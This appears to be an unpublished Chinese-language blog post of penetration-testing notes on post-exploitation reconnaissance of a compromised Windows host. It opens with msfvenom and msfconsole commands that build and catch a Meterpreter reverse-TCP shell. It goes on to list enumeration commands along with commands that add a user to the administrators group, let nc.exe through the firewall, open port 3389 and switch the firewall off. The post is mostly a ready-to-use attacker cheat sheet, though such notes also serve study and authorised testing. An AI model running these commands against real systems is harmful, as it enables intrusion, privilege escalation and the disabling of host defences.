 ```yaml
---
layout: post
title: 主机信息搜集
subtitle: 主机信息搜集
date: 2025-07-24 16:37
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```

# Windows 主机信息搜集

**反弹 shell**

Kali:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost eth0
exploit
```
## 系统信息搜集

```cmd
chcp 437 # change english
# 查询操作系统版本
# /B 匹配行的开头
# /C 区分大小写
systeminfo | findstr /B /C:"OS"
# 主机名
hostname
whoami
echo %username%
query user
# 处理器架构
echo %PROCESSOR_ARCHITECTURE%
# 获取开机时间
net statistics workstation 

net user <user> # 查看指定用户权限
net user <user> /active:yes

net localgroup
net localgroup administrators <user> /add
# 进程
tasklist
wmic service|process [where state='Running'] list brief|full
wmic product get name,version

schtasks /query /fo LIST /V # 查看计划任务
```
## 网络信息搜集

```
ipconfig /all
# 当前网络连接
# a: 显示所有连接和监听的端口
# n: 以数字格式显示地址和端口
# o: 显示与每个连接关联的进程 PID
netstat -ano
# 本机共享列表
net share
# 以简洁的方式列出共享的信息
wmic share list brief
#自定义显示字段
wmic share get Description,name,path,status
net use
net session
# arp缓存表
arp -a
# 路由表
route print
netstat -r
```
## 安全信息搜集

```
# 查看启动程序信息
wmic startup get command,caption
# 查看计划任务
schtasks /query /fo LIST /V
# 查看补丁列表
systeminfo
```

### 防火墙

#### 查看防火墙配置

```cmd
netsh firewall show config
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```
#### 修改防火墙配置

Windows server 2003 及之前版本

```cmd
# 允许指定程序通过
netsh firewall all allowprogram c:\nc.exe "allow nc" enable
# 关闭防火墙
netsh firewall set opmod disable
```

Windows server 2003 之后版本

```cmd
# 允许指定程序
# dir: in|out
netsh advfirewall firewall add rule name="allow nc" dir=in action=allow program="c:\nc.exe"
# 允许指定端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
# 关闭防火墙
netsh advfirewall firewall set allprofiles state off
```

### 远程桌面

```cmd
# 开启远程桌面服务

# 开启3389端口

```

### 自动脚本

http://www.fuzzysecurity.com/scripts/files/wmic_info.rar
#### Wmic 命令

```cmd
wmic service [where state='Running'] list brief|full
wmic product get name,version
wmic startup get command,caption # 查看系统启动信息
wmic qfe list brief # 列出所有安装的补丁
```
#### Netsh 命令

```cmd
netsh firewall show config # 查看防火墙配置
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```